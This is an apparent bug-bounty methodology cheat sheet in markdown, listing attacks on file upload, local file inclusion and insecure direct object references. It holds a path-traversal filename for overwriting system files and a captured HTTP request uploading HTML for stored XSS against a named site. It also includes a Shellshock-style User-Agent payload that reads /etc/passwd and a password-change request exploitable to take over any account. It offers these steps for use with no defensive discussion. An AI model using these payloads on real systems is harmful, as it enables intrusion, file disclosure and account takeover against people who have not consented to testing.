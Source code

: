 # Methodolgy: FILE UPLOAD

**> Subject: Path Traversal via File Upload**

1. Capture the file upload request
2. In the filename parameter, change filename to "../../filename" and forward the request.
3. See, if the file is getting stored outside the expected directory, if 'yes', it is an issue.
4. Now, attempt to overwrite a system file and check if it is possible to overwrite the system file.

</br>

**> Subject: File Upload XSS in image uploading of App**
1. Go to App settings and select a html file with .jpg extension.
2. Capture upload request using Burp and change the file extension from .jpg to .html, additionaly change the content type to text/html and it will upload the file.
3. Open the link of upload image in new file and XSS will pop up.

```
POST /inventory/app_icon/upload/ HTTP/1.0
Host: app.mopub.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: /
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-CSRFToken: YZ8hbuu1vB9p5s1ni2vPZ5kMrhMqeDo5
X-Requested-With: XMLHttpRequest
Referer: https://app.mopub.com/inventory/app/97142808ce5d4ace895480a3ffe7d631/
Content-Length: 389
Content-Type: multipart/form-data; boundary=---------------------------1714461176134095862036612614
Cookie: [Cookie values]
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
-----------------------------1714461176134095862036612614
Content-Disposition: form-data; name="image_upload"; filename="xssfileuploadcopy.html"
Content-Type: text/html
HTML content
-----------------------------1714461176134095862036612614--
```
</br>

# Methodolgy: LFI

**> Subject: Transversal by User Agent**
1. Directory Transversal look for <kbd>GET /cgi-bin/status</kbd> 
2. Set the User-Agent to
```
User-Agent: {:;}; echo $(</etc/passwd)
```

</br>

# Methodolgy: IDOR

**> Subject: IDOR in the password change functionality**
1. Try to change password and capture raw request with Burp Suite

```
POST /api/change_password HTTP/1.1
HOST: redacted.com
Cookie: ci_session= kefrsfdsdfmsdfldgh?h
Accept: application/json

{
    "account":"{username}",
    "password":"{password}"
}
```
2. Input any valid user account and input any password



